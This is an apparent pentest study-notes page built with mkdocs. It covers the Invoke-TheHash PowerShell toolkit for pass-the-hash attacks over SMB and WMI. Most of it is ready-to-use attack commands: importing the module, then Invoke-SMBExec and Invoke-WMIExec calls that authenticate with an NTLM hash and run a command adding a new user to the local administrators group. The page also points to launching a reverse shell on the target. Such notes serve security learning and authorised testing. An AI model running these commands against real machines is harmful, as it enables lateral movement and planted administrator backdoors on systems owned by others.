

repository: amandaguglieri/hackinglife · page: invoke-the-hash/index.html · generator: mkdocs

---
title: Invoke-TheHash
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
  - dump hashes
  - passwords
  - pass the hash attack
---
# Invoke-TheHash

Collection of PowerShell functions for performing Pass the Hash attacks with WMI and SMB. WMI and SMB connections are accessed through the .NET TCPClient. Authentication is performed by passing an NTLM hash into the NTLMv2 authentication protocol. Local administrator privileges are not required client-side, but the user and hash we use to authenticate need to have administrative rights on the target computer.


## Installation 

Download Powershell Invoke-TheHash fuctions from github repo:[https://github.com/Kevin-Robertson/Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash). 

When using Invoke-TheHash, we have two options: SMB or WMI command execution.

```powershell
cd C:\tools\Invoke-TheHash\

Import-Module .\Invoke-TheHash.psd1
```


## Invoke-TheHash with SMB

```powershell
Invoke-SMBExec -Target $ip -Domain <DOMAIN> -Username <USERNAME> -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
# Command to execute on the target. If a command is not specified, the function will check to see if the username and hash have access to WMI on the target.
# we can execute `Invoke-TheHash` to execute our PowerShell reverse shell script in the target computer.
```

[How to generate a reverse shell](reverse-shells.md).

## Invoke-TheHash with WMI

```powershell
Invoke-WMIExec -Target $machineName -Domain <DOMAIN> -Username <USERNAME> -Hash 64F12CDDAA88057E06A81B54E73B949B -Command  "net user mark Password123 /add && net localgroup administrators mark /add" 
```

[How to generate a reverse shell](reverse-shells.md).
